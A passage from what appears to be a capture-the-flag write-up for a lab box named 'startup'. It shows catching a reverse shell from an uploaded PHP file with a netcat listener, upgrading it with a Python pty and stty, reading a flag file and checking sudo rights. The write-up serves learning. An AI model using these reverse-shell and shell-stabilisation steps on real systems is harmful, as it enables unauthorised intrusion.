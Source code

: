 <br>

## System Access

I click the p.php file in the browser and get a shell back:

```
listening on [any] 4444 ...
connect to [10.6.0.242] from (UNKNOWN) [10.10.172.52] 40348
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 15:54:24 up 37 min,  0 users,  load average: 0.00, 0.02, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
bash: cannot set terminal process group (1196): Inappropriate ioctl for device
bash: no job control in this shell
www-data@startup:/$ whoami
whoami
www-data
www-data@startup:/$ hostname
hostname
startup
```

And quickly fix my shell:

```
www-data@startup:/$ which python3
which python3
/usr/bin/python3
www-data@startup:/$ python3 -c 'import pty;pty.spawn("/bin/bash")'      
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@startup:/$ ^Z
zsh: suspended  nc -nvlp 4444
                                                                                                        
┌──(kali㉿kali)-[~/work]
└─$ stty raw -echo; fg
[1]  + continued  nc -nvlp 4444

www-data@startup:/$ export TERM=xterm-256color
```

<br>

## System Enumeration

We find the answer to the secret spicy soup recipe in the recipe.txt file in the directory we land in:

```
Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was <REDACTED>.
```

I check `sudo -l` and it requires a password.
